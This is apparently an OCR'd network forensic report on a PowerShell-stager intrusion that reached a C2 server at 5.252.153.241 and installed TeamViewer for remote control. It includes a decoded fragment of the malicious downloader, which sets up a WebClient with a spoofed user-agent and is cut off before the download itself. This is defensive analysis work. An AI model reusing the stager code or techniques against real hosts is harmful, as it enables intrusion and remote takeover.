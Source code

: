 ### Network Forensic Analysis of Suspected Malware

| Case ID    | Report Title                                     | Date of Report  | Author            |
| ---------- | ------------------------------------------------ | --------------- | ----------------- |
| BMT10000 1 | Network Forensic Analysis of Suspected Malware 2 | July 29, 2025 3 | Andrew McKenzie 4 |

---
### 1. Executive Summary

On July 29, 2025, a network traffic analysis identified a successful intrusion and compromise of the host at __10.1.17.215__. The incident began at approximately 14:44 UTC. The threat actor utilized a multi-stage attack that started with a malicious PowerShell stager to establish a command and control (C2) channel with the server __5.252.153.241__.

Through this C2 channel, the attacker instructed the victim machine to download and execute a legitimate, older version of the TeamViewer remote access application. Analysis of network logs confirmed that the malware also established persistence by creating a startup shortcut, ensuring the remote access software would re-launch upon reboot. This "Living Off the Land" technique allowed the attacker to gain full, interactive remote access to the compromised host while bypassing security controls that might have blocked unknown malware.

---
### 2. Detailed Timeline of Attack

- __14:44:56 UTC - Initial Infection__: The C2 server (__5.252.153.241__) delivers a fake Microsoft Teams VBS payload to the victim host (10.1.17.215). At the same time, an obfuscated PowerShell stager command is received, which serves as the initial infection vector to kick off the attack.

- __14:45:56 UTC - C2 Beaconing__: Approximately one minute later, the script on the victim machine "calls home" to the C2 server (__5.252.153.241__), requesting its next set of instructions.

- __14:47:01 UTC - Payload Delivery__: The C2 server responds to a beacon and delivers the main payload. Suricata alerts confirm that PowerShell's `DownloadString` and `DownloadFile` commands were used to fetch a Windows executable (PE) file.

- __14:55:07 UTC - Remote Access Established__: Approximately eight minutes after the executable is downloaded, the victim host performs a DNS lookup for teamviewer.com and connects to a TeamViewer server (__185.188.32.26__). A `TeamViewer Dyngate User-Agent` alert confirms the downloaded executable was a TeamViewer client, giving the attacker remote control.
---
### 3. Technical Analysis & Key Findings

The investigation, combining Suricata's intrusion detection alerts with Zeek's detailed network logs, revealed the full lifecycle of the attack.
#### 3.1. Obfuscated PowerShell Stager

The attack was initiated by a heavily obfuscated PowerShell script designed to hide its commands from basic security tools19. Once decoded, the script's function as a "downloader" or "stager" becomes clear.

_Decoded Script (29842.ps1 and pas.ps1):_
```powershell
// The script first deletes any previous temporary file  
$fso = New-Object -comObject 'Scripting.FileSystemObject';  
if ($fso.FileExists($env:temp+'\'+'tmp.ps1')) {  
    $fso.DeleteFile($env:temp+'\'+'tmp.ps1');  
};  
  
// It forces the connection to use TLS 1.2  
[System.Net.ServicePointManager]::SecurityProtocol = 3072;  
$cli = New-Object System.Net.WebClient;  
  
// It spoofs a legitimate-looking User-Agent seen in the logs  
$cli.Headers.Add('user-agent', 'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; ...');  
  
```